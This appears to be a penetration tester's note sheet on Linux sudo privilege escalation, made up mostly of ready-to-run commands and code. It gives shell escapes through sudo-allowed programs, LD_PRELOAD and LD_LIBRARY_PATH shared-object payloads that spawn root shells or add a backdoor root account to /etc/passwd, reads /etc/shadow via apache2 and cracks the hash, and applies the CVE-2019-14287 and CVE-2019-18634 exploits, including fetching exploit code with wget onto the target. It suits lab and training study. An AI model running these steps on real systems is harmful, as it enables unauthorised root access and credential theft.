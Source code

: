 ```yaml
---
category: Uncategorized
tags: []
---
```


#### Sudo bins
```bash - target
sudo -l
```

```firefox
https://gtfobins.github.io/
```

Search what you're looking for, und "Sudo" section.

#### Text editor
Say we find a tool we can run as sudo, knife in this example.  In the manpage, it describes we can edit in a text editor.

![[Pasted image 20220922105222.png]]

```bash - target
sudo knife data bag create 1 2 -e vi
```

```bash - target
:!/bin/sh
```

#### Sudo shell escaping
```bash - kali
https://touhidshaikh.com/blog/2018/04/abusing-sudo-linux-privilege-escalation/
```

#### LD Preload
```bash - target
sudo -l
```

![[Pasted image 20221115134849.png]]

```bash - target
nano shell.c
```

```bash - target
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

```bash - target
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

Now just run the following command with any option from "sudo -l" :
MAKE SURE to use the full path for the shell.so file.

```bash - target
sudo LD_PRELOAD=/home/user/shell.so apache2
```

```bash - target
id
```

#### LD_LIBRARY_PATH
Here we have a elf file on a cron schedule for every minute.  We can write to /usr/local/lib/dev

![[Pasted image 20220318123807.png]]

We go to /usr/bin and try to execute log-sweeper, we find a message:
![[Pasted image 20220318124218.png]]

We can create a malicious utils.c:

```bash - target
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("echo 'newroot:L9yLGxncbOROc:0:0:root:/root:/bin/bash' >> /etc/passwd");
}
```

```bash - target
gcc -fPIC -shared -o utils.so utils.c -nostartfiles
```

Now just put the ustils.so file in the writable LD_LIBRARY_PATH and wait for the cron job to execute.

```bash - target
su newroot
```

```bash - target
password
```

#### Apache2

1. List the programs your user is allowed to run via sudo:

```bash - target
sudo -l
```

 >(root) NOPASSWD: /usr/sbin/apache2

Note that apache2 is in the list.

2. apache2 doesn’t have any known shell escape sequences, however when parsing a given config file, it will error and print any line it doesn’t understand.

3. Run apache2 using sudo , and provide it the /etc/shadow file as a config file:

```bash - target
sudo apache2 -f /etc/shadow
```

Syntax error on line 1 of /etc/shadow:

```Invalid command 'root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::', perhaps misspelled or defined by a module not included in the server configuration```

![[Pasted image 20211230153252.png]]

4. Extract the root user’s hash from the file.

5. Save the password hash in a file (e.g. hash.txt):

```echo '$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0' > hash.txt'```

6. Crack the password hash using john:

```bash - kali
john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

```Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 SSE2 2x])```

7. Use the su command to switch to the root user, entering the password we cracked when prompted:

```bash - target
su
```

```bash - target
password123
```

```bash - target
id
```

>uid=0(root) gid=0(root) groups=0(root)


#### sudo -l !root

```
https://www.exploit-db.com/exploits/47502
```

![[Pasted image 20211230153039.png]]

```bash - target
sudo -u#-1 /bin/bash
```

![[Pasted image 20211230153054.png]]

#### sudo -l different user
1. List the programs your user is allowed to run via sudo:

```bash - target
sudo -l
```

![[Pasted image 20211230153125.png]]

2. For each program in the list, see if there is a shell escape sequence on GTFOBins ([https://gtfobins.github.io/](https://gtfobins.github.io/))

3. If an escape sequence exists, run the program via sudo and perform the sequence to spawn a root shell.

```bash - target
sudo -u amy /usr/bin/python3 -c 'import os; os.system("/bin/bash")'
```


#### CVE 2019-14287
```firefox - kali
https://www.exploit-db.com/exploits/47502
```

```bash - target
sudo -u#-1 /bin/bash
```

#### CVE-2019-18634
```bash - target
sudo -V
```

```bash - kali
https://nvd.nist.gov/vuln/detail/CVE-2019-18634
```

```bash - kali
wget https://raw.githubusercontent.com/saleemrashid/sudo-cve-2019-18634/master/exploit.c
```

```bash - kali
https://www.sudo.ws/security/advisories/pwfeedback/
```

```bash - target
wget http://$KALI/exploit.c
```

```bash - target
gcc exploit.c -o exploit
```

```bash - target
./exploit
```

Hit enter a time or two.
